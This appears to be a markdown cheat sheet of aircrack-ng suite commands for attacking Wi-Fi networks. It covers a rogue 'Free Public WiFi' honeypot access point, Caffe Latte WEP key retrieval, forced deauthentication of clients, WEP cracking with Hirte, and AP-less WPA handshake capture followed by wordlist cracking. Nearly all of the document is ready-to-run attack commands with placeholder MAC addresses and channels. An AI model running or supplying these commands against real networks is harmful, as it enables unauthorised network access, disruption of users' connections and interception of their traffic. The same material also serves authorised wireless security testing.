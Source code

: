 ## Mis-Association Attack (Honeypot)
```bash
airmon-ng start wlan0  # 
airbase-ng -P -C 30 -e "Free Public WiFi" -c [channel] mon0  # 
ifconfig at0 up  # 
dhclient at0

```
## Caffe Latte Attack (Client WEP Key Retrieval)
```bash
airmon-ng start wlan0  # 
airbase-ng -e "test" -c [channel] -W 1 -Z 4 mon0  # 
airodump-ng -c [channel] --bssid [spoofed MAC] -w lattekill mon0  # 

```
## De-Authenticating the Client
```bash
airmon-ng start wlan0  # 
airodump-ng mon0  # 
aireplay-ng --deauth 5 -a [AP MAC] -c [client MAC] mon0  # 


```
## Cracking WEP with Hirte
```bash
airmon-ng start wlan0  # 
airodump-ng mon0  # 
aireplay-ng --interactive -b [target MAC] -h [your MAC] mon0  # 
aircrack-ng -z -n 64 -b [target MAC] wephirte.cap


```
## AP-less WPA cracking
```bash
airmon-ng start wlan0  # 
airbase-ng -e [target ESSID] -c [channel] -a [target BSSID] -Z 4 mon0  # 
airodump-ng -c [channel] --bssid [target BSSID] -w ap-less mon0  # 
aireplay-ng --deauth 5 -a [target BSSID] -c [client MAC] mon0  # 
aircrack-ng -w /path/to/wordlist.txt ap-less-01.cap
```